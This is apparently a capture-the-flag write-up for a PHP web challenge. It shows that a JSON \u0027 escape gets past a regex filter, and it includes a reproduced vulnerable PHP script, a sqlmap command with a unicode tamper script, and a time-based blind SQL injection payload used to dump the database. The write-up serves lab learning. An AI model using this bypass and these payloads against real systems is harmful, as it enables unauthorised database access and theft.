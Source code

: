 # My solution

We browse the webpage and we get some php code which is exposed due to an error. We can take a look at the source code.  
We see the server expects us to use a POST request. Data in the web server is not accessed using $\_POST but using the file_get_contents('php://input') which returns the raw byte data of the POST payload. It is commonly used when data is presented as JSON. Here there are more information: https://stackoverflow.com/questions/8893574/php-php-input-vs-post.   
In this application the raw byte retrieved from the POST payload are sanitized using preg_match_all and then decoded as JSON. The JSON object is then used as input for a SQL query.

We copy the pattern of the preg_match_all in a local editor and we run it. In this way we can clearly see what is the pattern used for the sanitization. Namely
```
/[\(\*\<\=\>\|'&\-@]|select|and|or|if|by|from|where|as|is|in|not|having/i
```
We can take a look at the string to see which characters are not allowed. To have a clearer view, we can paste the regex in https://regex101.com/, a very handy website when it comes to debug regular expressions.  

The special characters that we cannot use are:
```
(
*
<
=
>
|
'
&
-
@
```

We reproduce the script in locale setting up an apache server that serves the same php file, slightly modified to print the SQL query and the $obj variable instead of passing it to the backend.
```php
<?php

class db {
    public function waf($s) {
        if (preg_match_all('/'. implode('|', array(
            '[' . preg_quote("(*<=>|'&-@") . ']',
            'select', 'and', 'or', 'if', 'by', 'from', 
            'where', 'as', 'is', 'in', 'not', 'having'
        )) . '/i', $s, $matches)) die(var_dump($matches[0]));
        return json_decode($s);
    }

    public function query($sql) {
        $args = func_get_args();
        unset($args[0]);
        var_dump(vsprintf($sql, $args));
    }
}

$db = new db();

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $obj = $db->waf(file_get_contents('php://input'));
    var_dump($obj);
    $db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);
} else {
        echo("ciaooone\n");
    die(highlight_file(__FILE__, 1));
}

?> 
```

We try with the UTF-8 value. The payload is {"user": "\x27"}. The post request returns the following:
```
NULL
string(42) "SELECT note FROM notes WHERE assignee = ''"
```
As expected we managed to bypass the waf function but the \x27 is not interpreted as we want. The $obj variable is NULL, meaning that the json_decode did not manage to decode the payload.

Then we try with the unicode code for \', namely {"user":"\u0027"}. This time the unicode is actually interpreted as a \', as we see from the response:
```
string(42) "SELECT note FROM notes WHERE assignee = '''"
```
We can thus use the unicode value to bypass the waf and carry out our sql injection, but this time one the real server.

We can use sqlmap to automate the injection. The injection is not as simple as in locale because we don't have the response from the server. We can use timed queries to detect whether the injection is taking place or not. We can specify this technique with the flag --technique=T .  We need also to tell sqlmap to encode the payload in unicode, this is done by --tamper=charunicodeescape. charunicodeescape is a sqlmap script under the directory /usr/share/sqlmap/tamper/. We also set the --proxy flag to analyze whether sqlmap is correctly encoding in the form \uXXXX.
```
sqlmap -r request --technique=T --level=5 --risk=3 --proxy=http://127.0.0.1:8000 --tamper=charunicodescape
```

After a while sqlmap detects that the parameter is actually injectable.
```
[18:01:52] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
```

This is the summary provided by sqlmap
```
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: { "user": "' AND (SELECT 4920 FROM (SELECT(SLEEP(5)))VrIr)-- tEgk"}
---
```


We use sqlmap features to retrieve data from the sql database. 
We enumerate the databases and then dump all the content of the current one (db_m8452). In the table definitely_not_a_flag we have an entry called flag. The value of the entry is out HTB flag.

